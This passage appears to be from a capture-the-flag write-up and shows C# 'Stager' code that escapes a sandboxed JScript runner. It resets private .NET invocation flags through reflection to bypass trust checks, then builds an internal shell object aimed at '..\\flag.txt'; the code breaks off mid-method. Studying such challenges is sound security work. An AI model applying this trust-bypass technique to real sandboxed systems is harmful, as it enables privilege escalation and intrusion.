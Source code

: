 ### Stager

```csharp  
using JScriptRunner;  
using SlimlineJScript;  
using SlimlineJScript.Domain;  
using System;  
using System.Reflection;

namespace Stager  
{  
   public class Stager  
   {  
       [System.Security.SecuritySafeCritical]  
       public static void CheckTrust()  
       {  
           Console.WriteLine(Assembly.GetExecutingAssembly().IsFullyTrusted);  
       }

       public static void resetInvocationFlags(Object field)  
       {  
           var flagsField = field.GetType().GetField("m_invocationFlags", BindingFlags.Instance | BindingFlags.NonPublic | BindingFlags.Static);  
           flagsField.SetValue(field, flagsField.FieldType.GetField("INVOCATION_FLAGS_INITIALIZED").GetValue(null));  
       }

       public static Object getPrivateField(Object v, String name)  
       {  
           var field = v.GetType().GetField(name, BindingFlags.Instance | BindingFlags.NonPublic | BindingFlags.Public);  
           resetInvocationFlags(field);  
           return field.GetValue(v);  
       }

       public static MethodInfo getMethod(Object v, String name)  
       {  
           var mi = v.GetType().GetMethod(name, BindingFlags.Instance | BindingFlags.NonPublic | BindingFlags.Public | BindingFlags.Static);  
           resetInvocationFlags(mi);  
           return mi;  
       }

       public static void Run(JScriptGlobal self, byte[] stage2)  
       {  
           // get the shell so that we can produce output easily  
           var shellField = self.GetType().GetFields(BindingFlags.NonPublic | BindingFlags.Instance)[0];  
           IShell shell = (IShell)shellField.GetValue(self);

           // construct a new resolver so that we can call methods on it  
           var jsShellType = Assembly.GetAssembly(self.GetType()).GetType("JScriptRunner.JSShell");  
           var constr = jsShellType.GetConstructors()[0];  
           resetInvocationFlags(constr);

           var jsShell = constr.Invoke(new object[]  
           {  
               "..\\flag.txt",  
               shell,  
           });  
           shell.WriteLine("constructed jsshell");

```
